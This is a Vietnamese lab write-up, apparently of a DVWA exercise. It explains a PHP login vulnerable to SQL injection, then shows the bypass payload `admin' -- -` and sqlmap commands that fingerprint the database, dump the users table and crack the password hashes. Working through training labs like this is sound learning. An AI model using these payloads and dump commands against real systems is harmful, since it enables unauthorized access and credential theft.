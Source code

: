 Dưới đây là cách nó hoạt động:

- Kiểm tra xem có tham số 'Login' được gửi đi không thông qua phương thức GET.
- Nếu có, mã sẽ lấy tên người dùng và mật khẩu từ tham số của yêu cầu GET.
- Mật khẩu sau đó được mã hóa bằng hàm md5() để so sánh với mật khẩu trong cơ sở dữ liệu.
- Câu lệnh SQL được sử dụng để tìm kiếm trong cơ sở dữ liệu xem có tồn tại bản ghi nào có tên người dùng và mật khẩu tương ứng không.
- Nếu tồn tại bản ghi, người dùng sẽ được chào mừng và thông tin người dùng (như avatar) sẽ được hiển thị. Điều này ngụ ý rằng người dùng đã đăng nhập thành công.
- Nếu không tìm thấy bản ghi nào hoặc không đúng, thông báo lỗi sẽ được hiển thị.
- Tuy nhiên, mã này không được kiểm tra về bảo mật. Sử dụng các phương pháp như câu lệnh Prepared Statements để ngăn chặn các cuộc tấn công SQL Injection và việc mã hóa mật khẩu một cách an toàn hơn sẽ là những điều quan trọng để thực hiện trong một ứng dụng thực tế.

### Khai thác

- mình thử bypass sql với payload `admin' -- -` và đăng nhập thành công nhưng mục đích của chúng ta vẫn là tìm password của admin

![image](https://hackmd.io/_uploads/SJeHBdbgA.png)

- mình thử dùng sqlmap với lệnh:

```bash
sqlmap -u "http://192.168.1.58/dvwa/vulnerabilities/brute/?username=admin&password=1234&Login=Login#" --cookie="security=low; PHPSESSID=buagnfe6lfhp6q9t2rjv1qulb4" --batch --fingerprint -banner
```

và được

![image](https://hackmd.io/_uploads/HyA59OWxC.png)

![image](https://hackmd.io/_uploads/r1kccubxR.png)

- mình tiếp tục dump các user trong bảng users ra với lệnh

```bash
sqlmap -u "http://192.168.1.58/dvwa/vulnerabilities/brute/?username=admin&password=1234&Login=Login#" --cookie="security=low; PHPSESSID=buagnfe6lfhp6q9t2rjv1qulb4" -T users --dump
```

và được

![image](https://hackmd.io/_uploads/rJprodZxC.png)

- sau đó mình chọn các option để crack password

![image](https://hackmd.io/_uploads/r1odjOWx0.png)

hoặc có thể chọn các option mặc định với lệnh sau

```bash
 sqlmap -u "http://192.168.1.58/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=id5sj964f9vju55b5sfj1dstqa" --batch -T users --dump
```

- và mình được bảng users với password đã được crack
